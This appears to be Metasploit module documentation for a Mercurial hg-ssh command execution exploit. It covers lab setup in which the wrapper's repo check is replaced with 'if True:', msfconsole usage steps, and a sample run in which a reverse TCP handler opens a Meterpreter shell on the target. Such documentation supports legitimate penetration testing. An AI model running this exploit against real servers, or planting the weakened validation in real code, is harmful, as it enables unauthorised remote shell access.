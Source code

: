 ## Vulnerable Application

[mercurial](https://www.mercurial-scm.org/downloads).

This module was successfully tested against:

- Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

## Vulnerable Server Setup Steps

  1. Install mercurial on your test server
  2. Patch the hg-ssh Python script script to emulate custom/weak repo validation in hg-ssh wrapper `vi $(which hg-ssh)`
     - Replace `if repo in allowed paths:` with `if True:`
     - Replace `cmd = ['-R', repo, 'serve', 'stdio']` with `cmd = ['-R', path, 'serve', 'stdio']`
  3. Setup a user with SSH pubkey auth
  4. Create a test repo in the users home directory and add a commit
     - `mkdir -p repos/repo1`
     - `cd repos/repo1`
     - `echo "hello world" > README`
     - `hg add README`
     - `hg commit -m "Adds README"`
  5. Restrict user in authorized_keys to hg-ssh binary only
     - `command="hg-ssh ~/repos/repo1",no-port-forwarding,no-X11-forwarding,no-agent-forwarding INSERT_SSH_PUB_KEY`
  6. Verify SSH user can authenticate (should prompt and prevent a shell)
     - `ssh user@192.168.10.99`
  7. Verify SSH user commands are not allows (should prevent arbitrary commands)
     - `ssh user@192.168.10.99 ifconfig`

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/mercurial_ssh_exec`
  3. Do: `set RHOST <ip>`
  4. Do: `set LHOST <ip>`
  5. Do: `set SSH_PRIV_KEY_FILE /Users/jsmith/.ssh/id_rsa`
  6. Do: `exploit`
  7. You should get a shell.

## Scenarios

### Kali Linux, HG 4.0 and a customized hg-ssh (to simulate custom hg-ssh wrappers which have weak repo validation)

```
msf exploit(mercurial_ssh_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.37:4444 
[*] 192.168.10.99:22 - 192.168.10.99:22 - Attempting to login...
[+] 192.168.10.99:22 - SSH connection is established.
[+] 192.168.10.99:22 - Triggered Debugger (entering debugger - type c to continue starting hg or h for help)
[*] Sending stage (39842 bytes) to 192.168.10.99
[*] Meterpreter session 1 opened (192.168.10.37:4444 -> 192.168.10.99:57606) at 2017-04-18 19:16:44 -0400
```

